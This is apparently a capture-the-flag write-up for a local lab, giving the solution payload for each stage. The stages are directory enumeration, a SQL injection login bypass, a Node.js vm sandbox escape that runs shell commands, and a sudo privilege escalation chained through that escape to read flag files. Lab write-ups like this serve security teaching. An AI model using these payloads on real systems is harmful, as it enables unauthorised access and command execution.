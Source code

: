 # Writeups

## Enumeration - 1

```
gobuster dir -x txt -u http://localhost:1337/ -w directory-list-2.3-medium.txt
```

Will point to `/security.txt`, where the flag is hidden with the link to the next challenge.

## Login - 2

```
username: " OR 1=1))--
password:
```

This was a typical SQL injection, with a twist of adding parentheses.

## Foothold - 3

```
this.constructor.constructor('return this.process')().mainModule.require('child_process').execSync('cat /flags/FLAG_3').toString()
```

This was built off of payloads for `vm`, a vulnerable `node` sandbox. These can be easily found, offering these solutions. You simply escape through the VM's constructor.

## PrivEsc - 4

The following is highly reliant on keeping the previous base payload. If you find a way to reverse shell, you should also be fine (but not required). 

You can use a tool like `Linpeas` to find common vulnerabilties. This should flag you that following sudo configuration:

```
sudo -l
```

```
Matching Defaults entries for k1dd13 on ...:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User k1dd13 may run the following commands on ...:
    (ALL : ALL) ALL
    (super_k1dd13) NOPASSWD: /bin/lua, /bin/php, /bin/ruby, /bin/vim
```

This configuration allows to run `sudo` as `super_k1dd13` for the listed binaries. This is done as follows:

```
sudo -u super_k1dd13 ...
```

 These look like standard binaries, which we can find sudo payloads for on https://gtfobins.github.io/ . This said, you'll see 3 of the listed "binaries" are duds. The only working one is `/bin/ruby`, which is actually `python3`. Therefore, you can get a privesc and get the flag using the following:

```
sudo -u super_k1dd13 /bin/ruby -c "import os; os.system(\'/bin/cat /flags/FLAG_4\')"
```

If combined with the prior payload, it would give:

```
this.constructor.constructor('return this.process')().mainModule.require('child_process').execSync('sudo -u super_k1dd13 /bin/ruby -c "import os; os.system(\'/bin/cat /flags/FLAG_4\')"').toString()
```

